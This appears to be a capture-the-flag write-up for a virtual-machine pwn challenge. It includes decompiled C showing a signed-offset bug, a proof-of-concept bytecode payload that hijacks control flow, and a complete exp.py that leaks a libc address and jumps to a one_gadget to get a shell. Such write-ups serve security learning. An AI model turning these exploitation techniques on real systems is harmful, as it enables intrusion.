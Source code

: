 ```yaml
---
date: 2024-04-15 08:18
challenge: mixtpeailbc
tags:
  - VM pwn
---
```


It's a somewhat cumbersome virtual machine with 39 instructions, including memory operations, calculations, and output. However, I've encountered many cumbersome VM PWNs in domestic competitions, so settling down to reverse-engineer it felt manageable.

#### Analysis

At the very beginning, I noticed the output function by searching the references of `putchar`, then I decided to reverse the VM instruction's structure from that output function. However, after sending a `p32(0xdeadbeef)` I noticed my offset became negative. After debugging in gdb, I identified that this function has a negative overflow issue:

```c
__int64 __fastcall get_p16_arg(__int64 a1, unsigned int a2)
{
  unsigned __int8 middle_byte; // [rsp+1Eh] [rbp-2h]

  middle_byte = get_HIWORD(a2);
  return *(_QWORD *)(a1 + 8 * (middle_byte + 0x26LL) + 8) + (char)get_HIBYTE(a2);
}
```

However, there is an overflow check after the output function. I further searched for other cross-references to the `get_p16_arg` function and then got this one, which leads to control-flow-hijacking:

```c
void __fastcall sub_1850(__int64 a1, unsigned int a2)
{
  unsigned __int64 i; // [rsp+18h] [rbp-158h]
  unsigned __int64 j; // [rsp+20h] [rbp-150h]
  __int64 v4; // [rsp+28h] [rbp-148h]
  __int64 v5[39]; // [rsp+30h] [rbp-140h]
  unsigned __int64 v6; // [rsp+168h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = get_p16_arg(a1, a2) + 0x930 + a1 + 8;
  for ( i = 0LL; i <= 0x26; ++i )
    v5[i] = *(_QWORD *)(a1 + 8 * i);
  for ( j = 0LL; j <= 0x26; ++j )
    *(_QWORD *)(a1 + 8 * j) = v5[*(unsigned __int8 *)(v4 + j)];
  next_i(a1);
}
```

After reviewing all the functionalities, I confirmed that each instruction in the VM is 4 bytes. The first two bytes often seem to be used for memory addressing, and the third byte usually serves as the primary argument.

#### Exploitation

At the start of the exploitation, I attempted to write a payload that could hijack the control flow to `0xcafebad0deadbeef` to validate the correctness of the above analysis:

```python
# 0x7fffffffd498 —▸ 0x7ffff7df9083 (__libc_start_main+243)

# -2532 = 0xfffffffffffff6d0
# target= 0xfffffffffffff810 (0x148)

bytecode = flat(
    [
        # write 0xfffffffffffff810
        0xF810F906,
        0xFFFFF907,
        0xFFFFF908,
        0xFFFFF909,
        # write 0xdeadbeef
        0xBEEF0106,
        0xDEAD0107,
        0xBAD00108,
        0xCAFE0109,
        # write 0x26
        0x015C0206,
        0x03020207,
        0x05040208,
        0x07060209,
        0x09080306,
        0x0B0A0307,
        0x0D0C0308,
        0x0F0E0309,
        0x11100406,
        0x13120407,
        0x15140408,
        0x17160409,
        0x19180506,
        0x1B1A0507,
        0x1D1C0508,
        0x1F1E0509,
        0x21200606,
        0x23220607,
        0x25240608,
        0x27260609,
        # trigger vuln
        0x00F9FF03,
        0x00000000,
    ],
    word_size=32,
)
```

The analysis proved to be very accurate, as I successfully hijacked the function table entries and controlled several parameters to be zero. Therefore, my plan was to invoke `one_gadget` to achieve `get_shell`.

But how to obtain the libc address? This puzzled me for a long time, until I finally realized that the memory copying functionality was intended for acquiring addresses:

```c
unsigned __int64 __fastcall sub_1966(__int64 a1, unsigned int a2)
{
  unsigned __int8 v3; // [rsp+17h] [rbp-829h]
  unsigned __int64 i; // [rsp+18h] [rbp-828h]
  unsigned __int64 j; // [rsp+20h] [rbp-820h]
  __int64 v6; // [rsp+28h] [rbp-818h]
  __int64 v7[257]; // [rsp+30h] [rbp-810h]
  unsigned __int64 v8; // [rsp+838h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v3 = get_last8_arg(a2);
  v6 = get_p16_arg(a1, a2) + 0x930 + a1 + 8;
  for ( i = 0LL; i <= 0xFF; ++i )
    v7[i] = *(_QWORD *)(a1 + 8 * (i + 38) + 8);
  for ( j = 0LL; j < v3; ++j )
    *(_QWORD *)(a1 + 8 * (j + 38) + 8) = v7[*(unsigned __int8 *)(v6 + j)];
  next_i(a1);
  return __readfsqword(0x28u) ^ v8;
}
```

By exploiting an out-of-bounds condition, it's possible to treat a piece of data on the stack as an array index. I identified `__libc_start_main+243` because its last byte is fixed. To prevent errors, I pre-set the value corresponding to 0x83 to be the VM's PC pointer.

#### Final exp.py

After that, I performed some calculations to get `one_gadget` in VM memory and realized `get_shell`:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

# 0x7fffffffd498 —▸ 0x7ffff7df9083 (__libc_start_main+243)

# -2532 = 0xfffffffffffff6d0
# target= 0xfffffffffffff810 (0x148)

bytecode_list = []

for i in range(1, 0xFF + 1):
    bytecode_list += [((i << 16) | (i << 8) | 0x06)]

bytecode_list[0] = 0x00830106
bytecode_list[0x83] = 0x04008306

bytecode = flat(
    bytecode_list,
    word_size=32,
)

bytecode += flat(
    [
        0x8010FA06,
        0x00FA0804,
        # calcu libc_base
        0x28050526,
        0x20040426,
        0x18030326,
        0x10020226,
        0x08010126,
        0x83010114,
        0x02010113,
        0x03010113,
        0x04010113,
        0x05010113,
        # calcu onegadget
        0xFA7E0206,
        0x000B0306,
        0x10030326,
        0x03020213,
        0x02010113,
        # write 0xfffffffffffff810
        0xF810F906,
        0xFFFFF907,
        0xFFFFF908,
        0xFFFFF909,
        # write
        # 0xBEEF0106,
        # 0xDEAD0107,
        # 0xBAD00108,
        # 0xCAFE0109,
        # write 0x26
        0x015C0206,
        0x03020207,
        0x05040208,
        0x07060209,
        0x09080306,
        0x0B0A0307,
        0x0D0C0308,
        0x0F0E0309,
        0x11100406,
        0x13120407,
        0x15140408,
        0x17160409,
        0x19180506,
        0x1B1A0507,
        0x1D1C0508,
        0x1F1E0509,
        0x21200606,
        0x23220607,
        0x25240608,
        0x27260609,
        # trigger vuln
        0x00F9FF03,
        0x00000000,
    ],
    word_size=32,
)

open("aaa.bin", "wb").write(bytecode)
print(len(bytecode))
```
